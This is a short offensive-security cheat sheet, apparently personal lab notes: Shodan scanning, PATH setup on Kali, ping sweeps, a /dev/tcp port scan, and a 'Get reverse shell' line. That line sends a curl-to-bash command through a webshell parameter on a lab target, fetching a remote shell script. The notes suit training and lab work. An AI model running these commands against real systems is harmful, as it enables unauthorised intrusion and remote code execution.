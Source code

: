 ### Scan each IP address in a list using Shodan

	for i in $(cat ip-addresses.txt);do shodan host $i;done

### Add directory to PATH variable

##### Print the current PATH variable (Kali 2022.3)

	printenv | grep PATH

```text
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

##### Add temporarily

Add `/home/<user>/.local/bin`

```text
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/<user>/.local/bin"
```

##### Add permanently

Append the path to the end of the config file:

	vim ~/.zshrc

```text
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/<user>/.local/bin"
```

### Get reverse shell

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

### Ping sweep

```bash
for i in {1..255};      do (ping -c 1 172.16.1.$i | grep "bytes from" | cut -d ' ' -f4 | tr -d ':' &); done
for ip in $(seq 1 5);   do  ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.19.0.$ip"; done
```

### Portscan

```bash
for port in 22 25 80 443 8080 8443; do
    (echo w00t > /dev/tcp/172.19.0.3/$port && echo "Open: $port") 2> /dev/null
done
```

```text
Open: 80
```
